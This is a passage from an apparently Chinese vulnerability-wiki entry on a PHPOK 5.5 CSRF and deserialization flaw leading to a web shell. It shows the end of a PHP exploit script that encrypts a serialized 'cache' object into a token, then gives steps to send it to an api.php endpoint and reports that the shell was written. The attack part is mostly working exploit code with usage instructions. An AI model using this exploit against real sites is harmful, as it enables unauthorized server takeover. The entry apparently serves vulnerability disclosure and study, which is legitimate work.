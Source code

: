                 $rndkey[$i] = ord($cryptkey[$i % $key_length]);
            }
            // 用固定的算法，打乱密匙簿，增加随机性，好像很复杂，实际上并不会增加密文的强度
            for($j = $i = 0; $i < 256; $i++){
                $j = ($j + $box[$i] + $rndkey[$i]) % 256;
                $tmp = $box[$i];
                $box[$i] = $box[$j];
                $box[$j] = $tmp;
            }
            // 核心加解密部分
            for($a = $j = $i = 0; $i < $string_length; $i++){
                $a = ($a + 1) % 256;
                $j = ($j + $box[$a]) % 256;
                $tmp = $box[$a];
                $box[$a] = $box[$j];
                $box[$j] = $tmp;
                $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
            }
            return $result;
        }
    }
    $token = new token();
    $token->keyid('123456');
    echo $token->encode(serialize(new cache));
    ?>

![6.png](/Users/aresx/Documents/VulWiki/.resource/PHPOK5.5csrf+反序列化漏洞getshell/media/rId34.png)

运行脚本拿到Payload，请求有进行解密操作的接口，如：

    http://www.0-sec.org/api.php?c=index&f=phpok&token=

请求前：

![7.png](/Users/aresx/Documents/VulWiki/.resource/PHPOK5.5csrf+反序列化漏洞getshell/media/rId35.png)

请求后：

![8.png](/Users/aresx/Documents/VulWiki/.resource/PHPOK5.5csrf+反序列化漏洞getshell/media/rId36.png)

shell写入成功。

文件内容：

![9.png](/Users/aresx/Documents/VulWiki/.resource/PHPOK5.5csrf+反序列化漏洞getshell/media/rId37.png)

![10.png](/Users/aresx/Documents/VulWiki/.resource/PHPOK5.5csrf+反序列化漏洞getshell/media/rId38.png)

参考链接
--------

> https://xz.aliyun.com/t/7852

